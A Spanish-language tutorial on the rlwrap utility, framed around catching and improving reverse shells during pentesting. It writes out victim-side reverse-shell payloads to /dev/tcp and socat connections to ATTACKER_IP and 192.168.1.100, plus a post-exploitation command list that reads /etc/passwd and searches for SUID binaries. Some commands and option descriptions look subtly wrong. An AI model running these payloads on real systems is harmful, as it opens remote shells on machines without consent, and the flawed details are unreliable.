

## 📌 Introducción

**rlwrap** (Readline Wrapper) es una utilidad de Linux que añade funcionalidades de edición de línea de comandos y historial a programas que no las tienen de forma nativa. Básicamente, "envuelve" cualquier comando con las capacidades de la biblioteca **GNU Readline**. 

### ¿Para qué sirve?

- **Historial de comandos**: Navegar por comandos anteriores con las flechas ↑/↓
- **Autocompletado**: Usar TAB para completar comandos o argumentos
- **Edición avanzada**: Moverse por la línea con Ctrl+A, Ctrl+E, etc.
- **Búsqueda en historial**: Usar Ctrl+R para buscar comandos previos

### ¿Cuándo usarlo?

En **pentesting y ciberseguridad**, rlwrap es especialmente útil para: 

- **Shells reversas** (netcat, nc, socat)
- **Conexiones a bases de datos** (sqlplus, mysql sin readline)
- **Intérpretes interactivos** (Python básico, Ruby, Lua)
- **Herramientas CLI limitadas** que no tienen edición de línea integrada

> [!tip] Dato clave
> Si alguna vez obtuviste una reverse shell con `nc` y no podías usar las flechas o hacer Ctrl+C sin perder la sesión, **rlwrap** es tu solución.

---

## 🛠️ Instalación

```bash
# Debian/Ubuntu/Kali
sudo apt install rlwrap

# Arch Linux
sudo pacman -S rlwrap

# Red Hat/CentOS/Fedora
sudo yum install rlwrap
```

---

## 📖 Sintaxis básica

```bash
rlwrap [opciones] comando [argumentos del comando]
```

### Parámetros más comunes

| Opción | Descripción |
|--------|-------------|
| `-a` | Permite autocompletado "always" (siempre activo) |
| `-c` | Completa desde archivo de palabras |
| `-f ARCHIVO` | Usa un archivo para el autocompletado |
| `-H ARCHIVO` | Especifica archivo de historial personalizado |
| `-i` | Modo case-insensitive para autocompletado |
| `-n` | No usa historial |
| `-r` | Recuerda el historial entre sesiones |
| `-s N` | Tamaño del historial (por defecto 300) |
| `-A` | Ansi color aware (mantiene colores) |
| `-N` | No instala manejador de señales |

---

## 💡 Casos de uso en Hacking

### 1️⃣ Mejorar shells reversas con Netcat

**Problema**: Cuando obtienes una reverse shell con `nc`, no puedes usar flechas ni historial.

**Solución**: 

```bash
# En la máquina atacante (listener)
rlwrap nc -lvnp 4444
```

> [!example] Ejemplo práctico
> ```bash
> # Terminal atacante
> rlwrap nc -lvnp 9001
> 
> # En la máquina víctima (payload)
> bash -i >& /dev/tcp/ATTACKER_IP/9001 0>&1
> ```
> 
> Ahora tu shell tendrá: 
> - ✅ Historial de comandos (↑/↓)
> - ✅ Edición de línea (Ctrl+A, Ctrl+E)
> - ✅ Búsqueda con Ctrl+R

### 2️⃣ Conexiones a bases de datos

```bash
# Oracle SQL*Plus (notoriamente malo para interacción)
rlwrap sqlplus usuario/contraseña@BD

# MySQL sin readline compilado
rlwrap mysql -u root -p

# PostgreSQL psql
rlwrap psql -U postgres
```

### 3️⃣ Intérpretes de lenguajes

```bash
# Python sin edición (útil en sistemas embebidos)
rlwrap python

# Ruby
rlwrap irb

# Lua
rlwrap lua
```

### 4️⃣ Socat con rlwrap (shell más estable)

```bash
# Listener con socat y rlwrap
rlwrap socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash

# Conectar desde víctima
socat TCP: ATTACKER_IP:4444 EXEC:/bin/bash
```

---

## 🔥 Ejemplos prácticos paso a paso

### Ejemplo 1: Shell reversa mejorada

```bash
# 1. En Kali (atacante) - Preparar listener
rlwrap nc -lvnp 443

# 2. En víctima - Ejecutar payload (ejemplo: inyección en web)
bash -c 'bash -i >& /dev/tcp/192.168.1.100/443 0>&1'

# 3. Ahora en tu terminal podrás:
whoami
↑  # Repite el comando anterior
ls -la
pwd
↑↑  # Vuelve a 'whoami'
```

**¿Por qué funciona?** rlwrap intercepta la entrada/salida del netcat y añade las funcionalidades de readline.

---

### Ejemplo 2: Historial persistente personalizado

```bash
# Crear archivo de historial personalizado
rlwrap -H ~/. mi_historial_nc nc -lvnp 4444

# Los comandos se guardarán en ~/.mi_historial_nc
# La próxima vez que uses el mismo archivo, tendrás el historial disponible
```

---

### Ejemplo 3: Autocompletado con archivo de palabras

```bash
# Crear archivo con comandos comunes en pentesting
cat > /tmp/comandos_pentest.txt << EOF
whoami
uname -a
cat /etc/passwd
find / -perm -4000 2>/dev/null
python3 -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
EOF

# Usar rlwrap con autocompletado
rlwrap -f /tmp/comandos_pentest.txt nc -lvnp 4444
```

> [!tip] Productividad
> Ahora al escribir `who` y presionar TAB, autocompletará a `whoami`.

---

## 🎯 Tips y buenas prácticas

> [!tip] Combinación poderosa
> ```bash
> rlwrap -cAr nc -lvnp 4444
> ```
> - `-c`: Autocompletado activado
> - `-A`: Preserva colores ANSI
> - `-r`: Recuerda historial entre sesiones

> [!warning] Advertencia con señales
> En shells reversas, si presionas **Ctrl+C** con rlwrap, podrías cerrar la sesión.  Usa `-N` para evitarlo: 
> ```bash
> rlwrap -N nc -lvnp 4444
> ```

> [!info] Atajos de teclado útiles
> Una vez dentro de una sesión con rlwrap: 
> 
> | Atajo | Acción |
> |-------|--------|
> | `Ctrl + R` | Buscar en historial |
> | `Ctrl + A` | Ir al inicio de línea |
> | `Ctrl + E` | Ir al final de línea |
> | `Ctrl + U` | Borrar línea completa |
> | `Ctrl + K` | Borrar desde cursor hasta el final |
> | `Ctrl + W` | Borrar palabra anterior |

---

## 🧩 Diagrama de flujo - Shell reversa con rlwrap



---

## 🚨 Errores comunes y soluciones

### Error 1: "rlwrap: command not found"

**Solución**:  No está instalado
```bash
sudo apt install rlwrap
```

---

### Error 2: Shell se cierra al presionar Ctrl+C

**Causa**: rlwrap intercepta la señal por defecto. 

**Solución**:  Usar la opción `-N`
```bash
rlwrap -N nc -lvnp 4444
```

---

### Error 3: No guarda el historial

**Causa**: Por defecto rlwrap guarda historial en `~/.comando_history`, pero puede no tener permisos. 

**Solución**: Especificar archivo de historial manualmente
```bash
rlwrap -H ~/.mi_historial nc -lvnp 4444
```

---

### Error 4: Colores desaparecen

**Causa**:  rlwrap no está configurado para ANSI.

**Solución**: Usar flag `-A`
```bash
rlwrap -A nc -lvnp 4444
```

---

## 📚 Recursos adicionales

> [!info] Documentación
> ```bash
> man rlwrap
> rlwrap --help
> ```

> [!example] Alias útiles para `.bashrc` o `.zshrc`
> ```bash
> # Añadir a tu archivo de configuración
> alias rlnc='rlwrap -cAr nc'
> alias rlpython='rlwrap python3'
> alias rlsqlplus='rlwrap sqlplus'
> 
> # Uso: 
> rlnc -lvnp 4444
> ```

---

## 🎓 Resumen rápido

| Situación | Comando |
|-----------|---------|
| Shell reversa básica | `rlwrap nc -lvnp 4444` |
| Shell con historial persistente | `rlwrap -r nc -lvnp 4444` |
| Shell sin Ctrl+C peligroso | `rlwrap -N nc -lvnp 4444` |
| Combo completo | `rlwrap -cArN nc -lvnp 4444` |
| Con autocompletado custom | `rlwrap -f archivo. txt nc -lvnp 4444` |

---

> [!success] Conclusión
> **rlwrap** es una herramienta pequeña pero fundamental en el arsenal de cualquier pentester.  Transforma shells básicas en entornos de trabajo usables, ahorrando tiempo y frustraciones.  Su uso más valioso está en mejorar shells reversas obtenidas con netcat o socat. 